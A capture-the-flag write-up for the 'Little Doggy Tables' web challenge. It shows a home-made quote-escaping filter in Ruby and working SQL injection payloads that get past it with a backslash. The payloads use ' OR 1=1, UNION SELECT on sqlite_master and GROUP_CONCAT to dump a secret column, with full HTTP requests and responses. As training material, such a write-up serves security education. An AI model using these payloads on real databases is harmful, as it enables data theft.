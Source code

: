 # Little Doggy Tables (100 points, Web Security)
`-- SELECT * FROM '\u\n\h\a\c\k\a\b\l\e'; --`

> It's worse than we thought. We knew the androids couldn't care for the 
> humans like we do (yes, even the cats care--stop yapping about loyalty,
> Agent Rover). But they don't even remember their own species.
> 
> We've found a website that reminds them whether a given robot "agent" is 
> a dog or a cat! And when we confronted a captured android about it, it was 
> arrogant in the extreme:
> 
> "Oh, so you found it. Yes, it will tell you if a given agent is a dog or a 
> cat, by looking up the appropriate value in its SQLite database. Good luck 
> with that.
> 
> "Sure, the database contains some sensitive information, but our bulletproof 
> firewall and top-notch quote escaping will ensure it never sees the light of 
> day.
> 
> "Not secure? Huh? You don’t believe me? I’ll show you how secure. Here’s the source!"
> 
> USAGE EXAMPLE:
> 
> ```
> curl "https://little-doggy-tables.capturethesquare.com/agent_lookup" --get --data-urlencode "codename=Fido"
> ```
> 
> https://little-doggy-tables.capturethesquare.com
> 

Looking at the source file that we were so nicely given ([little_doggy_tables.rb](little_doggy_tables.rb))
we immediately notice how the script does their own SQL filtering. This is usually never a good idea:

```rb
def secure_species_lookup(insecure_codename)
	# roll our own escaping to prevent SQL injection attacks
	secure_codename = insecure_codename.gsub("'", Regexp.escape("\\'"))
	query = "SELECT species FROM operatives WHERE codename = '#{secure_codename}';"

	puts query
	results = @db.execute(query)

	return if results.length == 0
	results[0][0]
end
```

And as it turns out, it is fairly easy to bypass the filter. As each single quote is escaped by
adding a backslash, we can simply add a backslash of our own to escape the escaping backslash.

I.e. the string `'` will after the filter be `\'`. The string `\'` will after the filter be
`\\'`. The result being that the single quote is no longer escaped, letting us break out of
the where clause.


```
> http --verify=no https://little-doggy-tables.capturethesquare.com/agent_lookup codename=="\'OR 1=1--"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 4
Content-Type: text/plain
Date: Wed, 04 Oct 2017 18:12:30 GMT
Server: nginx/1.13.3
Strict-Transport-Security: max-age=15724800; includeSubDomains;

dog
```

Querying the sqlite_master metadata table, we find that the operatives table has an interesting
`secret` column (note that we are using double quotes for the `"operatives"` table name, as single
quotes would be escaped):

```
http --verify=no https://little-doggy-tables.capturethesquare.com/agent_lookup codename=="\'AND 1=2 UNION SELECT sql from sqlite_master WHERE name == \"operatives\"--"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 99
Content-Type: text/plain
Date: Wed, 04 Oct 2017 18:18:31 GMT
Server: nginx/1.13.3
Strict-Transport-Security: max-age=15724800; includeSubDomains;

CREATE TABLE operatives (
        codename TEXT,
        species TEXT,
        secret TEXT
      )
```


Using `group_concat` we can easily get all the values in the `secret` column and find that
the animal with codename "Spot" has the flag as secret value:

```
>http --verify=no https://little-doggy-tables.capturethesquare.com/agent_lookup codename=="\'AND 1=2 UNION SELECT GROUP_CONCAT(codename || \":\" || secret) from operatives--"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/plain
Date: Wed, 04 Oct 2017 18:31:43 GMT
Server: nginx/1.13.3
Strict-Transport-Security: max-age=15724800; includeSubDomains;
Transfer-Encoding: chunked

Fido:e5fa44f2b31c1fb553b6021e7360d07d5d91ff5e,Rover:7448d8798a4380162d4b56f9b452e2f6f9e24e7a,Rex:9c6b057a2b9d96a4067a749ee3b3b0158d390cf1,Bella:5d9474c0309b7ca09a182d888f73b37a8fe1362c,Spot:flag-a3db5c13ff90a36963278c6a39e4ee3c22e2a436,Misty:ccf271b7830882da1791852baeca1737fcbe4b90,Tigger:d3964f9dad9f60363c81b688324d95b4ec7c8038,Oscar:136571b41aa14adc10c5f3c987d43c02c8f5d498,Missy:b6abd567fa79cbe0196d093a067271361dc6ca8b,Felix:4143d3a341877154d6e95211464e1df1015b74bd
```

flag: `flag-a3db5c13ff90a36963278c6a39e4ee3c22e2a436`
